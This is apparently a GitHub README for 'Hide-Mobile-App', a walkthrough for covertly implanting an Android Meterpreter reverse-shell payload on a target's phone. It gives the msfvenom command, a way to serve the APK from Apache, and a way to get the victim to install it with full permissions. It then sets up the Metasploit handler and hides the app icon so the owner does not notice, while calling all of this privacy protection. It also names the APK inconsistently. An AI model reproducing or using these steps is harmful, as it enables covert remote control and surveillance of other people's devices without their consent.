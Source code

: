 # Hide-Mobile-App
"Hide Mobile App" maximizes Kali Linux and msfvenom capabilities to deploy custom payloads covertly onto target mobile devices. Seamlessly integrated into the Kali environment, it ensures the utmost privacy by encrypting sensitive data. Effortlessly secure your information with "Hide Mobile App" on Kali Linux.

## Table of Content

1. [Generate Apk File](#generate-apk-file)
2. [Check Server](#check-server)
3. [Accessibility](#accessibility)
4. [Installation](#installation)
5. [Permissions](#permissions)
6. [Accessing Device](#accessing-device)






## Generate Apk File
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9999 R > ./mobileApp.apk`
This command utilizes `msfvenom`, a Metasploit payload generator, to create a custom Android application (`.apk` file) embedded with a Meterpreter reverse TCP payload.

Breaking down the command: <br>
`-p android/meterpreter/reverse_tcp` Specifies the payload to be used. In this case, it's a Meterpreter payload designed for Android devices that establishes a reverse TCP connection back to the attacker's machine.

`LHOST=192.168.0.0` Sets the IP address of the attacker's machine (the listener host) to which the Meterpreter session will connect.

`LPORT=9999` Sets the port on the attacker's machine (the listener port) where the Meterpreter session will connect.

`R > ./mobileApp.apk` Redirects the generated payload to a file named `mobileApp.apk` in the current directory.

## Check Server

Check whether your apache server is running or not.
`systemctl status apache2`
If the status is active (running), then okay. If not, use this command below to activate your apache2 server.
`sudo systemctl start apache2`
Optionally, you can also enable Apache2 to start automatically on boot by running:
`sudo systemctl enable apache2`
To verify that Apache2 is running, you can use:
`sudo systemctl status apache2`
So, we have our web application server running.

## Accessibility

Making the file to be easily accessible by other machine/system/device.
`sudo mv ./hacker.apk /var/www/html/`
`cd /var/www/html/`

## Installation

Open your favourate browser on the targeted device and type the ip address followed by forward slash hacker.apk. For example if the ip addr is 192.168.0.0:
➡ 192.168.0.0/hacker.apk

## Permissions

After this, allow the permission to install the apk in the device. Enable all the permissions if needed from the settings>apps>app_name

## Accessing Device

Open Metasploit Framework in your Linux terminal. Type the command in your linux terminal to start Metasploit Framework.
`msfconsole`

Type this command to use the specific exploit:
`use exploit/multi/handler`

See Options:
`show options`

Set payload using this command:
`set payload android/meterpreter/reverse_tcp`

See Options:
`show options`

Set LHOST by the ip addr of the listener machine i.e. in our case, Kali Linux:
`set LHOST 192.168.0.0` ➡ Replace 192.168.0.0 with your machine ip addr.

Set LPORT:
`set LPORT 9999`

After this, run it by using one of these commands:
`exploit` or `run`

As soon as yopu open the installed apk in the targeted device, it will create a meterpreter session in your terminal.

Type `help` to see all the available options and commands that you can pass.

Retrieves basic system information in Meterpreter like OS, architecture, language, and uptime, aiding attackers in understanding target systems for subsequent actions:
`sysinfo`

Now making the activity that actually try to hide the mobile application from appearing:
`hide_app_icon`

You can actually go under settings and once you are in settings, you can go on for applications or apps, and then you will be able to see the apps that are running in your environment. <br> So of course, this is the only way the user could detect that the mobile application is running.


